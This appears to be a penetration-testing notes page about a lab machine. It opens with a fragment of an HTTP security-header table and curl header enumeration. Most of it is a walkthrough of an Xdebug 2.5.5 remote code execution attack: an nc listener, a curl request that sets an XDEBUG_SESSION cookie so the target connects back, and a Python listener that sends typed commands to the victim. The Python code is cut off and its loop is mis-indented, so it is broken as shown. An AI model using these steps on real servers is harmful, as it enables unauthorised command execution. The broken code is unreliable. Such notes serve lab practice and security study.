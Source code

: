       <td style="text-align:left">X-XSS-Protection<a href="https://en.wikipedia.org/wiki/List_of_HTTP_header_fields#cite_note-74">[74]</a>
      </td>
      <td style="text-align:left"><a href="https://en.wikipedia.org/wiki/Cross-site_scripting">Cross-site scripting</a> (XSS)
        filter</td>
      <td style="text-align:left"><code>X-XSS-Protection: 1; mode=block</code>
      </td>
    </tr>
  </tbody>
</table>

## HTTP Headers Enumeration

We can enumerate headers with curl, DevTools, BurpSuite or anything that get process headers:

Example with curl:

```text
curl -X GET -s "http://10.10.10.83/" -I
```

## Xdebug 2.5.5 Exploit

 **Xdebug** is a [PHP](https://en.wikipedia.org/wiki/PHP) extension that provides debugging and profiling capabilities.[\[2\]](https://en.wikipedia.org/wiki/Xdebug#cite_note-2) It uses the [DBGp](https://en.wikipedia.org/wiki/DBGp) debugging protocol. Extracted from [here](https://en.wikipedia.org/wiki/Xdebug).

### Testing the Exploit

Listen on any port:

```text
nc -nlvp 9000
```

Send an HTTP GET request with the cookie `XDEBUG_SESSION`

```text
curl -s -X GET "http://10.10.10.83/index.php" -H "Cookie: XDEBUG_SESSION=AAAAA"
```

### Exploiting Xdebug

Search the exploit on github, this [repo ](https://github.com/nqxcode/xdebug-exploit/blob/master/exploit_shell.py)has a good exploit that we can use.

```python
#!/usr/bin/python3

import socket
import pdb

from base64 import b64encode

ip_port = ('0.0.0.0', 9000)
sk = socket.socket()
sk.bind(ip_port)
sk.listen(10)
conn, addr = sk.accept()

while True:
client_data = conn.recv(1024)
print(client_data)

data = input('>> ')
data = data.encode('utf-8')
```